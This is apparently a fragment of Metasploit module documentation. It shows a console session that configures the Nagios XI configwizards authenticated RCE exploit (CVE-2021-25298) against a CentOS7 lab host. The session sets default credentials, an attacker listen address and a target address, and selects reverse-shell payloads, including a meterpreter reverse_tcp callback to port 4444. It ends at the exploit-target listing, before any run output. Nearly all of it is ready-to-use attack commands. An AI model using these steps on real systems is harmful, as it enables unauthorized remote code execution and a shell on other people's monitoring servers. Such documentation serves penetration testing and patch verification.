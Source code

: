 ### CentOS7 Running NagiosXI 5.7.5 (Official OVA) - CVE-2021-25298
```
msf > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET_CVE CVE-2021-25298
TARGET_CVE => CVE-2021-25298
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
RHOST => 192.168.153.132
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set TARGET Linux\ (x64)
TARGET => Linux (x64)
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed,
                                              try to do so. This includes signing the license agreem
                                              ent.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port
                                              ][...]
   RHOSTS          192.168.153.132  yes       The target host(s), see https://github.com/rapid7/meta
                                              sploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly
                                              generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25298   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE
                                              -2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```